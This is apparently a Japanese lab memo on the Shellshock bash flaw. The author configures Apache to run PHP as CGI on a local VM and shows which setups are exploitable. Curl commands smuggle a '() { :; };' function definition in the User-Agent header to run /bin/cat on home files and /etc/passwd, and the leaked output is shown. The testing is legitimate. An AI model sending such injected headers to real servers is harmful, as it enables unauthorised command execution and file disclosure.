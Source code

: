 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。<br />
<br />
こういうファイルを準備。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/env php<br />
<br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
<!--more--><br />
<br />
httpd.confのOptionsのところにExecCGIを追加し、<br />
下にAddHandlerを書く。<br />
<br />
[bash]<br />
 Options Indexes FollowSymLinks ExecCGI<br />
 AddHandler cgi-script php<br />
[/bash]<br />
<br />
ホームの下にファイルを準備<br />
[bash]<br />
[ueda\@localhost ~]$ ls -l mysecret <br />
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret<br />
[ueda\@localhost ~]$ cat mysecret <br />
私の秘密<br />
[/bash]<br />
<br />
外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php<br />
[/bash]<br />
<br />
ログを確認。パーミッションで守られている。<br />
[bash]<br />
[root\@localhost httpd]# tail error_log <br />
...<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: <br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] <br />
[/bash]<br />
<br />
もう一度突っつく。別のものを。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]<br />
守られていない・・・。<br />
<br />
<br />
今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
もう一度突っつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
Fri Oct 3 20:27:38 JST 2014<br />
[/bash]<br />
大丈夫。<br />
<br />
もう一度CGIモードで。こんなコード。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	print(&quot;hoge\\n&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
hoge<br />
[/bash]<br />
<br />
大丈夫。<br />
<br />
これは・・・<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	system(&quot;date&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
ダメ。<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]
